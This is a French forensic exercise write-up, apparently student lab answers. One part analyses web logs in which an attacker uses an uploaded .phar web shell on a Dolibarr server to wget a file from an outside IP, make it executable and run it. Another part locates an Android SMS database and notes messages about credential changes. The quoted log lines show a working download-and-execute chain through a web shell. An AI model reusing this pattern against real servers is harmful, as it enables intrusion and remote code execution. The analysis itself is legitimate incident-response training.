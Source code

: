 ### Analyse des commandes exécutées :

1. **Commande 1 (wget)** :
   ```
   192.168.1.10 - - [23/May/2023:09:55:20 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=wget%20http://240.123.207.20/fiche_de_poste.odt HTTP/1.1" 200 486
   ```
   - L'attaquant utilise la commande **`wget`** pour télécharger un fichier appelé **`fiche_de_poste.odt`** depuis l'adresse IP **240.123.207.20**.
   - Cette commande est utilisée pour récupérer un fichier à distance et l'enregistrer sur le serveur compromis.

2. **Commande 2 (mv)** :
   ```
   192.168.1.10 - - [23/May/2023:09:55:38 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=mv%20fiche_de_poste.odt%20fiche_de_poste HTTP/1.1" 200 203
   ```
   - L'attaquant renomme ensuite le fichier téléchargé avec la commande **`mv`**, en le passant de **`fiche_de_poste.odt`** à **`fiche_de_poste`**.
   - Cela peut être une étape pour préparer ce fichier à être exécuté comme un script ou un programme.

3. **Commande 3 (chmod)** :
   ```
   192.168.1.10 - - [23/May/2023:09:55:52 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=chmod%20755%20fiche_de_poste HTTP/1.1" 200 203
   ```
   - L'attaquant modifie les permissions du fichier avec la commande **`chmod 755`**. 
   - Cela donne des permissions d'exécution (lecture, écriture, et exécution pour l'utilisateur) au fichier **`fiche_de_poste`**, ce qui indique que le fichier est probablement un script ou un programme que l'attaquant veut exécuter.

4. **Commande 4 (exécution du fichier)** :
   ```
   192.168.1.10 - - [23/May/2023:09:58:22 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=./fiche_de_poste HTTP/1.1" 200 245
   ```
   - Enfin, l'attaquant exécute directement le fichier **`fiche_de_poste`** en utilisant **`./fiche_de_poste`**, ce qui indique que le fichier téléchargé est exécuté comme un script ou un binaire.
   - Cela suggère que ce fichier pourrait contenir du code malveillant ou être un outil permettant à l'attaquant de poursuivre l'exploitation du serveur.


## Exercice 3

### 1.

La base de données où sont stockés les SMS/MMS se trouve dans le chemin suivant : `./user_de/0/com.android.providers.telephony/databases/mmssms.db`. Cette base de données est une base SQLite3, et les informations concernant les SMS sont stockées dans la table `sms`. 

### 2. 

En analysant la base de données des SMS/MMS (après avoir fait un `select * from sms;), nous avons identifié un message pertinent qui mentionne un changement d’identifiants. Le message avec l’ID **151** contient une information clé concernant la distribution des nouveaux identifiants intranet à travers une image jointe. Ce message a été envoyé le **21 mai 2023** à **10h15 UTC**. Un autre message sous l’ID **148** mentionne également que les identifiants de tous les utilisateurs seront modifiés dans deux semaines, envoyé le **11 mai 2023** à **07h28 UTC**. Ces messages pourraient être liés à la fuite d’identifiants.
